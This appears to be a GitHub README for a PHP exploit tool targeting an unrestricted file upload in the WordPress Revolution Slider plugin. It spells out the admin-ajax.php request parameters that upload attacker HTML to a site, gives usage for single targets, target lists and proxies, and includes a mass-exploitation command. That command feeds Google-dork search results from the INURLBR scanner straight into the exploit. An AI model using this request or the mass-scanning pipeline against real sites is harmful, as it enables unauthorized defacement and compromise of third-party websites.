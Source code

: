 - WORDPRESS Revslider Exploit 0DAY / INURL - BRASIL
------

```
  # AUTOR:        Cleiton Pinheiro / Nick: googleINURL
  # Blog:         http://blog.inurl.com.br
  # Twitter:      https://twitter.com/googleinurl
  # Fanpage:      https://fb.com/InurlBrasil
  # Pastebin      http://pastebin.com/u/Googleinurl
  # GIT:          https://github.com/googleinurl
  # PSS:          http://packetstormsecurity.com/user/googleinurl
  # YOUTUBE:      http://youtube.com/c/INURLBrasil
  # PLUS:         http://google.com/+INURLBrasil
```
-   Vulnerability Description
------
Exploit Wordpress Plugin Revolution Slider - Unrestricted File Upload

-   Tool Description
------
Script perform html upload unauthorized to target

-   REQUEST POST SEND
------
```
array("action" => "revslider_ajax_action","client_action" => "update_captions_css", "data" => _YOU_HTML_);
```

-   URL REQUEST SEND
------
```
http://{target}/wp-admin/admin-ajax.php
```

-   URL MODIFIED
------
```
http://{target}/wp-admin/admin-ajax.php?action=revslider_ajax_action&client_action=get_captions_css
```

-   COMMAND EXPLOIT --help
------
```
  -t : SET TARGET.
   -f : SET FILE TARGETS.
   -p : SET PROXY
   Execute:
                 php exploit.php -t target
                 php exploit.php -f targets
                 php exploit.php -t target -p 'http://localhost:9090'
```

-   USE MASS EXPLOIT SCANNER INURLBR
------
```
./inurlbr.php --dork 'inurl:admin-ajax.php?action=revslider_show_image -intext:"revslider_show_image"' -s vull.txt  -q 1,6  --command-all 'php inurl_revslider.php -t _TARGET_'
```

- DOWNLOAD INURLBR
------
https://github.com/googleinurl/SCANNER-INURLBR

- PRINT
------
http://i.imgur.com/Fown6vf.png

- REFERENCE
------
[1] http://blog.inurl.com.br/2015/03/wordpress-revslider-exploit-0day-inurl.html

[2] http://www.exploit4arab.net/exploits/1405
